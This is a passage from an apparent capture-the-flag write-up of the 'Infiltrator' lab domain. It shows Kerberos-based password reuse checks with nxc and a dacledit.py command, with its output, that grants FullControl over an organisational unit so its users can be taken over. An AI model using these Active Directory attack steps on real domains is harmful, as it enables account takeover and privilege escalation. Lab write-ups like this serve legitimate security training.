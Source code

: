 We see a different error for the users `d.anderson` and `m.harris`, which is `STATUS_ACCOUNT_RESTRICTION`, this means that the user is protected and cannot login with `NTLM` only kerberos, which is a common practice in high security environments.

We can, indeed, confirm that the user has some protection by looking at the `rusthound` output, which shows that the user is a member of the `Protected Users` group.

![NON](file-20250604193931613.png)

Protected users members can't authenticate with the standard `NTLM` only with kerberos, for that, we could request a ticket for that user using `getTGT.py` or `nxc --generate-tgt`, but we could also only add the `-k` flag to the `nxc` command, which will automatically request a TGT for the user and use it to authenticate to the SMB service.

```bash
nxc smb $FQDN -u valid_users -p '<REDACTED>' -k

SMB         dc01.infiltrator.htb 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         dc01.infiltrator.htb 445    DC01             [+] infiltrator.htb\d.anderson:<REDACTED>
```

And now we see that `d.anderson` uses the same password as `l.clark`, so we can use this user to try to escalate our privileges.

Looking at the `rusthound` output, we can see that the user `d.anderson` has some permissions on the `OU=MARKETING DIGITAL,DC=INFILTRATOR,DC=HTB`, which is the organizational unit where the user `e.rodriguez` is located. Besides that, `e.rodriguez` is member of the `CHIEFS MARKETING` group, which has the `ForceChangePassword` privilege over `m.harris`, meaning that the user can change the password of the user `m.harris` account. 

![NON](file-20250604194205689.png)

### Following The Attack Path `d.anderson` -> `e.rodriguez` -> `m.harris`

- **d.anderson** has `GenericAll` permissions on the `OU=MARKETING DIGITAL,DC=INFILTRATOR,DC=HTB`, which allows us to modify the permissions of the OU and its objects, by applying a `GenericAll ACE` on the `OU` it will inherit down to all objects from that `OU`, effectively giving us control over all objects in that `OU`, including the user `e.rodriguez`.

```bash
 dacledit.py -action 'write' -rights 'FullControl' -inheritance -principal 'd.anderson' -target-dn 'OU=MARKETING DIGITAL,DC=INFILTRATOR,DC=HTB' "$DOMAIN"/'d.anderson':'<REDACTED>' -k
  
Impacket v0.13.0.dev0+20250523.184829.f2f2b367 - Copyright Fortra, LLC and its affiliated companies

[-] CCache file is not found. Skipping...
[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20250604-194347.bak
[*] DACL modified successfully!
```

With full control over the `OU`, we can now make a series of attacks on the user `e.rodriguez`, like changing its password, modifying object properties, etc. 
